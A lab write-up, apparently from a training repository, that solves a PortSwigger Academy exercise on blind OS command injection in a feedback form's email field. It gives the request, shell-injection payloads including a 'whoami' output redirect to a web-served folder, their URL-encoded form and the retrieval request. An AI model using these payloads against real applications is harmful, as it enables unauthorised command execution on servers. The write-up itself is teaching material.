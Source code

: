 # Lab 3 - Blind OS command injection with output redirection

**YouTube video & lab links below:**

[Command Injection - Lab #3 Blind OS command injection with output redirection | Long Version](https://youtu.be/Gf2_UWsYrpM?list=PLuyTk2_mYISK9ywsFZZOT1LuO3Eb7Wq5q)

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. 
The output from the command is not returned in the response. 
However, you can use output redirection to capture the output from the command. 
There is a writable folder at: /var/www/images/

The application serves the images for the product catalog from this location. 
You can redirect the output from the injected command to a file in this folder, 
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the `/var/www/images`


#### Analysis:

**1. Confirm blind command injection: Email Field**

**2. Check where images are store**

**3. Redirect output to file**

**4. Check if file was created**

<br>

## Solution:
### The vulnerable parameter is the email field field in the feedback form
at this endpoint: `POST /feedback/submit`

```HTTP
POST /feedback/submit HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
Origin: https://0a2f007903dd2e578305105c006200aa.web-security-academy.net

Referer: https://0a2f007903dd2e578305105c006200aa.web-security-

csrf=sAk5Gg9Qxxvly8VWUAGGuxQyQeYQvzyq&name=Hackerman&email=peter%40normal-user.net&subject=foo&message=bar
```

`&name=Hackerman&`

#### use the same command structure as in the previous lesson
and preceed it with a random letter so that it wont pickup the command, makes it easier
to execute, etc....

```shell
||ping+-c+10+127.0.0.1||
```

But here in this lab it's gonna be:
```shell
x||whoami > /var/www/images/whodatbe.txt||&
```

Then URL encode it, I used the Decoder tab:
```URL
%78%7c%7c%77%68%6f%61%6d%69%20%3e%20%2f%76%61%72%2f%77%77%77%2f%69%6d%61%67%65%73%2f%77%68%6f%64%61%74%62%65%2e%74%78%74%7c%7c
```

Then the end point containing the .txt file you made is located at:
```HTTP
GET /image?filename=21.jpg
```

It can be any jpg number, that's irrelevant, cause you're gonna change the .jpg file name
to the name of the file you created that contains the output of `whoami` , and that will look like
```HTTP
GET /image?filename=whodatbe.txt HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
```

and the response should be
```HTTP
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=CsuBhNTngZrmPSJAreEo9oFnWjh80WCd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-WKMu36
```

**And BOOM !**
you are `peter-WKMu36`

--Done--
